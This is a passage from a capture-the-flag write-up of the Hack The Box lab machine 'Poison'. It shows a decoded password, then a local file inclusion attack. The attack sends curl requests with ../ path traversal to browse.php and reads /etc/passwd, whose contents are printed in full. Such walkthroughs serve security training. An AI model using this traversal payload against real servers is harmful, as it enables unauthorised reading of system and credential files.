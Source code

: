 Testing the script and running:

```
root@kali:~/htb/poison# python3 decode.py 
Charix!2#4%6&8(0
```

Voila! We have a password, however we still need a username. 

Let's test for an LFI.

```
root@kali:~/htb/poison# curl http://10.10.10.84/browse.php?file=../../../etc/passwd
<br />
<b>Warning</b>:  include(../../../etc/passwd): failed to open stream: No such file or directory in <b>/usr/local/www/apache24/data/browse.php</b> on line <b>2</b><br />
<br />
<b>Warning</b>:  include(): Failed opening '../../../etc/passwd' for inclusion (include_path='.:/usr/local/www/apache24/data') in <b>/usr/local/www/apache24/data/browse.php</b> on line <b>2</b><br />
```

Okay so we can see here that include() is indeed being used and we also see the include path, so we'll need to go up five directories first to try to escape to the root dir.

```
root@kali:~/htb/poison# curl http://10.10.10.84/browse.php?file=../../../../../etc/passwd
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
```
